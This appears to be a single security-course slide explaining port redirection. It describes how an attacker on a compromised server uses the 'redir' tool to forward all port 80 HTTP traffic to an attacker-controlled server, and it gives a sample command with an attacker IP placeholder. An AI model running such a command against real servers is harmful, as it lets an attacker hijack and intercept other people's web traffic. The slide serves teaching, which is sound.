

# Port Redirection
Server is compromised and a program is loaded
All the port 80 ie., http requests are redirected to the attacker’s server
Software known as ‘redir’
Execute the software using:
	redir --lport=80 –l addr=<IP addr orig server> -cport=80 -caddr=IP addr attacker